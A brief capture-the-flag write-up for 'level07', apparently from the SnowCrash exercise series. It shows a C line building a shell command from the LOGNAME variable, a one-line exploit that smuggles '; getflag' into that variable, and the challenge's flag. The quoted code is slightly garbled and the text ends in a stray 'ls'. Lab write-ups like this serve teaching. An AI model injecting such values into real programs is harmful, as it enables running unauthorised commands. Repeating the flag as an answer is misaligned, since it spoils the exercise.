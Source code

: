 # Level 07

We have level07 executable printing his name.

```sh
$ ./level07
level07
```

When 
```c
asprintf(&v1, "/bin/echo %s ");
```

```sh
$ LOGNAME="; getflag" ./level07 
```

<details>
	<summary>Flag:</summary>
	fiumuikeil55xe9cu4dood66h
</details>ls
